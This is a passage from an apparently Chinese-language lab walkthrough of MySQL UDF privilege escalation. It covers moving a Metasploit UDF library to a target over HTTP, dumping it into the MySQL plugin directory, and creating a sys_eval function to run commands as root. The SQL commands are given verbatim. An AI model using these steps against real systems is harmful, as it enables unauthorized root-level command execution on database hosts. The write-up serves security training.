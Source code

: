 3、由于靶机中未找到 udf 库，我们可在 msf 中找到对应版本（lib\_mysqludf\_sys\_64.so）。开启 http 服务将 udf 库文件摆渡到靶机上。

[![](assets/1703831504-6e59df4891942eb51f4b1380c81d4f8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164058-a875b5e0-a493-1.png)

4、创建表，将文件内容写到表中。将表中数据，写到 plugin 目录，自定义一个文件名，而后创建恶意函数 sys\_eval，利用函数，获得一个 root 权限。

```plain
mysql> select data from tmp into dumpfile"/usr/lib/mysql/plugin/udf64.so";
mysql> create function sys_eval returns string soname 'udf64.so';
myssql> select sys_eval('whoami');
```

[![](assets/1703831504-36218f7a9ffc275d88bf159419465d73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164106-ad117dfa-a493-1.png)
